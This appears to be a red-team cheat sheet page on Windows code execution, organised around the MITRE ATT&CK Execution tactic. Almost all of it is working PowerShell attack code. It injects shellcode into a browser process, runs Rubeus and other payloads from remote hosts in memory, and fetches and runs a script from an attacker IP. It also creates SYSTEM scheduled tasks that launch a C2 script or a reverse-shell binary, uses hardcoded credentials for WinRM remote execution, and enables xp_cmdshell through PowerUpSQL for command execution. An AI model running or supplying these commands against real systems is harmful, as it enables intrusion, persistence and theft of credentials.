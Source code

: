```yaml
---
description: >-
  The adversary is trying to run malicious code.
  https://attack.mitre.org/tactics/TA0002/
---
```


# Execution

## Executing Shellcode

### Empire's `Invoke-Shellcode`

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1');
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin");
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b;
```
{% endcode %}

Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`

### Executable to In-Memory Assembly Code

Reflectively loading a binary as assembly code

{% code overflow="wrap" %}
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
{% endcode %}

### Download and Execute in Memory

GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)

{% code overflow="wrap" %}
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)
```
{% endcode %}

Additionally, there are additional methods here: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

{% code overflow="wrap" %}
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
{% endcode %}

## WinRM

The following will establish a WinRM session and execute commands remotely.

{% code overflow="wrap" %}
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess;
}
```
{% endcode %}

Or, you can gain an interactive session.

{% code overflow="wrap" %}
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
{% endcode %}

## PowerShell Execution via Text File

{% code overflow="wrap" %}
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke();
```
{% endcode %}

## Scheduled Task Creation

{% code overflow="wrap" %}
```powershell
$Script = 'C:\tmp\C2.ps1';
$TaskName = 'C2 PoC for SYSTEM';
$Description = 'A proof-of-concept for scheduled task creation';
$User = "NT AUTHORITY\SYSTEM";
$Executable = "powershell.exe";
$Action = New-ScheduledTaskAction -execute $Executable -Argument "-file $Script";
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).Date -RepetitionInterval (New-TimeSpan -Hours 24);
$Settings = New-ScheduledTaskSettingsSet –StartWhenAvailable;
Register-ScheduledTask -TaskName $TaskName -Trigger $Trigger -Action $Action -Setting $Settings -Description $Description -User $User -RunLevel Highest;
```
{% endcode %}

Or

{% code overflow="wrap" %}
```powershell
schtasks /create /sc minute /mo 1 /tn burmat /tr \tmp\reverse443.exe /ru SYSTEM
```
{% endcode %}

## PowerUpSQL

GitHub Repo: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and more thorough cheat sheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

### MSSQL Server Enumeration

{% code overflow="wrap" %}
```powershell
## basic instance information
Get-SQLInstanceLocal

## more verbose information:
Get-SQLServerInfo -Verbose -Instance SQLSRV\SQLEXPRESS

## crawl for databse links:
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS
```
{% endcode %}

### Enumerate User Privileges

Full credit to: [https://github.com/lkys37en](https://github.com/lkys37en)

{% code overflow="wrap" %}
```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co";
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator;
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName;

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation;

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10;
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation;

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}
	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole;
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append;
}
```
{% endcode %}

### Enable xp\_cmdshell / Execute Commands

{% code overflow="wrap" %}
```powershell
## enable xp_cmdshell:
Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

## test rce:
Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}

### Execute DB Query via MSSQL Link

{% code overflow="wrap" %}
```powershell
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS -Query "select name from master..sysdatabases" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}
